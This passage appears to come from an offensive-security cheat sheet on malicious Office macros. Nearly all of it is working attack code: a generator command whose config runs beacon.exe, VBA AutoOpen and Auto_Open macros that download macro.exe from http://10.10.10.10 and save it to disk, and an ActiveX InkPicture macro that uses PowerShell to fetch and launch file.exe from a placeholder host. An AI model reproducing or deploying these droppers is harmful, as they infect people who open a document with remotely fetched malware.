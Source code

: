 ```ps1
git clone https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator
python MMG.py configs/generic-cmd.json malicious.vba
{
	"description": "Generic command exec payload\nEvasion technique set to none",
	"template": "templates/payloads/generic-cmd-template.vba",
	"varcount": 152,
	"encodingoffset": 5,
	"chunksize": 180,
	"encodedvars": 	{},
	"vars": 	[],
	"evasion": 	["encoder"],
	"payload": "cmd.exe /c C:\\Users\\Public\\beacon.exe"
}
```

```vb
Private Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" (ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Public Function DownloadFileA(ByVal URL As String, ByVal DownloadPath As String) As Boolean
    On Error GoTo Failed
    DownloadFileA = False
    'As directory must exist, this is a check
    If CreateObject("Scripting.FileSystemObject").FolderExists(CreateObject("Scripting.FileSystemObject").GetParentFolderName(DownloadPath)) = False Then Exit Function
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, URL, DownloadPath, 0, 0)
    'If return value is 0 and the file exist, then it is considered as downloaded correctly
    DownloadFileA = (returnValue = 0) And (Len(Dir(DownloadPath)) > 0)
    Exit Function

Failed:
End Function

Sub AutoOpen()
    DownloadFileA "http://10.10.10.10/macro.exe", "C:\\Users\\Public\\beacon.exe"
End Sub


Sub Auto_Open()
    DownloadFileA "http://10.10.10.10/macro.exe", "C:\\Users\\Public\\beacon.exe"
End Sub
```

## DOCM - ActiveX-based (InkPicture control, Painted event) Autorun macro

Go to **Developer tab** on ribbon `-> Insert -> More Controls -> Microsoft InkPicture Control` 

```vb
Private Sub InkPicture1_Painted(ByVal hDC As Long, ByVal Rect As MSINKAUTLib.IInkRectangle)
Run = Shell("cmd.exe /c PowerShell (New-Object System.Net.WebClient).DownloadFile('https://<host>/file.exe','file.exe');Start-Process 'file.exe'", vbNormalFocus)
End Sub
```
